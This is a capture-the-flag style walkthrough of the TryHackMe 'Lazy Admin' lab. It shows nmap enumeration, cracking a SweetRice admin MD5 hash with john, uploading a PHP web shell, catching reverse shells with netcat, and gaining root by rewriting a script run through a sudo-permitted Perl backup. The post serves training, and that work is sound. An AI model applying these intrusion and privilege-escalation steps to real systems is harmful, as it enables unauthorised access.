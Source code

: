 ```yaml
---
layout: post
title: Walkthrough - Lazy Admin
published: true
---
```


Easy linux machine to practice your skills

Linux/Exploit

[https://tryhackme.com/room/lazyadmin](https://tryhackme.com/room/lazyadmin)

* * *

## Enumerate

```shell
sudo nmap -sC -sV -O 10.10.154.224 -p22,80  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-12 14:01 PDT
Nmap scan report for 10.10.154.224
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.10 - 3.13 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.11 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.23 seconds
```

* * * 

## Exploit

1. ``searchsploit sweetrice``
2. ``cat /usr/share/exploitdb/exploits/php/webapps/40718.txt``
3. download mysql backup and cat
4. password hash for admin/manager MD5 42f749ade7f9e195bf475f37a44cafcb
5. feed john ``john admin.manager.hash --format=Raw-MD5 --wordlist=/usr/share/seclists/Passwords/rockyou.txt``
6. Password123

- upload php shellcode https://www.exploit-db.com/exploits/40700
- access shellcode http://10.10.154.224/content/inc/ads/shellcode.php

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Lazy-Admin]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.2.127.225] from (UNKNOWN) [10.10.154.224] 35016
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 01:46:23 up  2:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

- ``python -c 'import pty; pty.spawn("/bin/bash")'``
- Check for easy privesc:

```shell
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

- so this is running a backup.pl which is running a /etc/copy.sh
- we can replace copy.sh with our ip and get another rev shell running ``/usr/bin/perl /home/itguy/backup.pl``

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Lazy-Admin]
└─$ nc -lvnp 10000                                                                                       
listening on [any] 10000 ...
# whoami
root
# pwd
/home/itguy
# cd /root
# ls -las
total 28
4 drwxr-x---  4 root root 4096 iul 14 19:52 .
4 drwxr-xr-x 23 root root 4096 nov 29  2019 ..
0 lrwxrwxrwx  1 root root    9 nov 29  2019 .bash_history -> /dev/null
4 -rw-r--r--  1 root root 3106 oct 22  2015 .bashrc
4 drwx------  2 root root 4096 feb 27  2019 .cache
4 drwxr-xr-x  2 root root 4096 nov 29  2019 .nano
4 -rw-r--r--  1 root root  148 aug 17  2015 .profile
4 -rw-r--r--  1 root root   38 nov 29  2019 root.txt
# cat root.txt
```


* * * 